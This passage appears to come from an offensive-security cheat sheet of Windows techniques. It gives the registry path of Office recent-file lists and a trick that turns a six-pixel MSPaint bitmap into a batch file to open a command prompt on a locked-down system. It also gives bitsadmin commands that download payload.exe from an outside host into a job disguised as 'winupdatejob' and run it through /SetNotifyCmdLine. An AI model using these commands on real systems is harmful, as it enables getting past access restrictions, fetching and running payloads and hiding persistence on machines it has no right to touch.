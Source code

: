 - 14.0 Office 2010
- 12.0 Office 2007
- 11.0 Office 2003
- 10.0 Office X

Recent office documents:

```
NTUSER.DAT\Software\Microsoft\Office{Version}{Excel|Word} UserMRU\LiveID_###\FileMRU
```

## Command Prompt from MSPaint:

If you find yourself on a locked down system and aren’t able to open a command prompt but do have access to Microsoft’s Paint program then this might be the hack for you; courtesy of Simon.

1. Load mspaint, it should start with a blank canvas
2. Use the resize menu option to change the drawing to 6 pixels wide by 1 pixel high.
3. Select the pencil drawing tool.
4. Use the Edit Colours option to create custom colours using the following RGB values:

```
Pixel 1 = R(10), G(0), B(0)
Pixel 2 = R(13), G(10), B(13)
Pixel 3 = R(100), G(109), B(99)
Pixel 4 = R(120), G(101), B(46)
Pixel 5 = R(0), G(0), B(101)
Pixel 6 = R(0), G(0), B(0)
```
5. For each color you create, paint 1 pixel working from left to right.
6. The final image should look something like this:

![pixels](https://user-images.githubusercontent.com/72598486/217630466-ef0dec9a-17a3-411f-9067-fa4914684b79.jpg)

7. Now save the picture using the ```File | Save``` as option and choose 24-bit Bitmap as the type.  I saved it as command.bmp
8. Make a copy of the file and rename it to command.bat.
9. Double click the file to run the batch file and you will open a command prompt!

## BITS Jobs and Downloads:

Starting with creating a job named “winupdatejob”, then we add the payload file in the job that we just created.

```
bitsadmin /addfile winupdatejob http://192.168.1.13/payload.exe C:\payload.exe
```

After adding the file, we use the /SetNotifyCmdLine switch to execute the payload. This is done with the help of an action that we scripted. First, it will start the cmd.exe and then, it will complete the download and then it will execute the said command in the background.

```
bitsadmin /SetNotifyCmdLine winupdatejob cmd.exe "/c bitsadmin.exe /complete winupdatejob | start /B C:\payload.exe"
```
